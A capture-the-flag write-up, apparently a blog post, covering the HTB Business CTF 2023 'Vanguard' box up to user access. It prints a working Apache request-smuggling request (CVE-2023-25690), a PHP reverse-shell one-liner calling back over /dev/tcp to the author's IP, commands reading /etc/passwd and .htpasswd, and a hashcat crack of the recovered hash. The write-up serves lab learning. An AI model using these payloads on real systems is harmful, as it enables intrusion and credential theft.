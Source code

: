 ```yaml
---
layout: post
title: HTB Business CTF 2023 Writeup - FullPwn - Vanguard (user only)
date: 2023-07-19
type: post
tags:
- Writeup
- Hacking
- BusinessCTF
- CTF
permalink: /2023/07/HTBBusinessCTF/Vanguard
img: 2023/07/HTBBusinessCTF/Vanguard/Vanguard.png
---
```


In this challenge, I combined an insecure file upload with request smuggling to get a shell on the machine. The CTF ended before I could get root.

> Easy

## Enumeration

I ran rustscan to check for open ports.

```bash
$ rustscan -a target -- -A -Pn | tee rust.txt
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |                                                              
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.                                                                                          
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com       
                                                           
[~] The config file is expected to be at "/home/ehogue/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.246.192:22               
Open 10.129.246.192:80                      
[~] Starting Script(s)                         
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

...

Completed NSE at 14:48, 0.00s elapsed
Nmap scan report for target (10.129.246.192)
Host is up, received user-set (0.029s latency).
Scanned at 2023-07-16 14:48:12 EDT for 8s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 9.3 (protocol 2.0)
| ssh-hostkey: 
|   256 8e:bc:b2:f4:1b:e8:62:ac:bd:63:97:80:25:a1:7e:fe (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKEk9a4Mu0XiCxo4egKo7ivgQMv7bG3Ufx7xL3YzMCjFc8VDkyE/klk0t7x9G2UXF7OFLifl2xopRS0oyl9iiAk=
|   256 c0:50:00:d3:2e:a4:76:b0:da:52:f3:43:ba:ef:ec:11 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC0eEvnRiwxFz3KCGQ3tPlgyv/50TVQIGNPrEKvi+pd1
80/tcp open  http    syn-ack Apache httpd 2.4.55 ((Unix) PHP/8.2.8)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://vanguard.htb/
|_http-server-header: Apache/2.4.55 (Unix) PHP/8.2.8

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
```

Ports 22 (SSH) and 80 (HTTP) where open. I added 'vanguard.htb' to my hosts file. UDP and subdomains scans did not find anything of interest.

## Website

I looked at the website in a browser.

![Website](/assets/images/2023/07/HTBBusinessCTF/Vanguard/Vanguard.png "Website")

The site was simple. But there was a link to upload files.

![Upload Form](/assets/images/2023/07/HTBBusinessCTF/Vanguard/UploadForm.png "Upload Form")

I tried to upload files and quickly found that I could upload PHP files. But I did not know where the files were stored, and if I could access them. I found a '/uploads' endpoint, but it was password protected.

I ran Feroxbuster on the site to find hidden pages. It found that '/server-info' was accessible. 

From this page, I found some information about the Apache configuration.

```
Current Configuration:
    In file: /etc/httpd/conf/httpd.conf
     556: <VirtualHost *:80>
     563:   ProxyPassReverse "/leaders/" "http://127.0.0.1:8080/"
     568:   <Location /uploads*>
     573:     ProxyPass "http://127.0.0.1:8080/uploads/"
     574:     ProxyPassReverse "http://127.0.0.1:8080/uploads/"
        :   </Location>
        : </VirtualHost>


Current Configuration:
    In file: /etc/httpd/conf/httpd.conf
     556: <VirtualHost *:80>
     561:   RewriteEngine on
     562:   RewriteRule "^/leaders/(.*)" "http://127.0.0.1:8080/leader.php?id=$1" [P]
     565:   RewriteCond %{HTTP_HOST} !^vanguard.htb$
     566:   RewriteRule ^(.*)$ http://vanguard.htb$1 [R=permanent,L]
        : </VirtualHost>
```

With this information, and the Apache version number (2.4.55) identified by nmap, I looked for known vulnerabilities. I found it was vulnerable to [request smuggling](https://github.com/dhmosfunk/CVE-2023-25690-POC). And it was very easy to exploit.

I took the example code from the site and modified it to access the `test.php` file I had uploaded when testing the file upload.

```http
GET /leaders/1%20HTTP/1.1%0d%0aHost:%20localhost%0d%0a%0d%0aGET%20/uploads/test.php HTTP/1.1
Host: vanguard.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

The file was making a web request to my machine. And I got the hit. I uploaded a new file with a reverse shell in it.

```php
<?php
echo `bash -c 'bash -i >& /dev/tcp/10.10.14.54/4444 0>&1'`;
```

When I accessed it with the request smuggling, I got a hit on my netcat listener.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.54] from (UNKNOWN) [10.129.246.192] 54416
bash: cannot set terminal process group (269): Inappropriate ioctl for device
bash: no job control in this shell
[http@vanguard uploads]$ 
```

## Getting a User

After I was connected, I looked for ways to get a user. I read `/etc/passwd` and saw that there was a maximus user on the box.

```bash
[http@vanguard vanguard]$ cat /etc/passwd
cat /etc/passwd
root:x:0:0::/root:/bin/bash
bin:x:1:1::/:/usr/bin/nologin
daemon:x:2:2::/:/usr/bin/nologin
mail:x:8:12::/var/spool/mail:/usr/bin/nologin
ftp:x:14:11::/srv/ftp:/usr/bin/nologin
http:x:33:33::/srv/http:/usr/bin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/usr/bin/nologin
dbus:x:81:81:System Message Bus:/:/usr/bin/nologin
systemd-coredump:x:981:981:systemd Core Dumper:/:/usr/bin/nologin
systemd-network:x:980:980:systemd Network Management:/:/usr/bin/nologin
systemd-oom:x:979:979:systemd Userspace OOM Killer:/:/usr/bin/nologin
systemd-journal-remote:x:978:978:systemd Journal Remote:/:/usr/bin/nologin
systemd-resolve:x:977:977:systemd Resolver:/:/usr/bin/nologin
systemd-timesync:x:976:976:systemd Time Synchronization:/:/usr/bin/nologin
tss:x:975:975:tss user for tpm2:/:/usr/bin/nologin
uuidd:x:68:68::/:/usr/bin/nologin
maximus:x:1000:1000::/home/maximus:/bin/bash
```

From the Apache configuration, I knew there was an `.htpasswd` file on the server.

```bash
[http@vanguard http]$ cat  /etc/httpd/.htpasswd
cat  /etc/httpd/.htpasswd
maximus-webadmin:$apr1$4uK/teeQ$8gAFoYWl7ba5Vy7Bjy3nK/
```

I saved the hash in a file and used `hashcat` to crack it.

```bash
$ hashcat -a0 hash.txt /usr/share/seclists/rockyou.txt                                                               
hashcat (v6.2.6) starting in autodetect mode  


$apr1$4uK/teeQ$8gAFoYWl7ba5Vy7Bjy3nK/:100%snoopy          
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1600 (Apache $apr1$ MD5, md5apr1, MD5 (APR))
Hash.Target......: $apr1$4uK/teeQ$8gAFoYWl7ba5Vy7Bjy3nK/
Time.Started.....: Sun Jul 16 16:22:45 2023 (10 mins, 1 sec)
Time.Estimated...: Sun Jul 16 16:32:46 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    22607 H/s (7.72ms) @ Accel:64 Loops:500 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 13476480/14344384 (93.95%)
Rejected.........: 0/13476480 (0.00%)
Restore.Point....: 13476096/14344384 (93.95%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:500-1000
Candidate.Engine.: Device Generator
Candidates.#1....: 100003470 -> 100%prince
Hardware.Mon.#1..: Util: 94%

Started: Sun Jul 16 16:22:26 2023
Stopped: Sun Jul 16 16:32:47 2023
```


I used the password to reconnect to the server as maximus and read the user flag.

```bash
$ ssh maximus@target
maximus@target's password: 
[maximus@vanguard ~]$ cat user.txt 
HTB{h3y_l0ok_aT_mE_Im_a_bLu3pR1nT_sMUggL3r}
```

This is as far as I went. I spent the few minutes I had left trying to get root. But the CTF ended before I had time to root the box.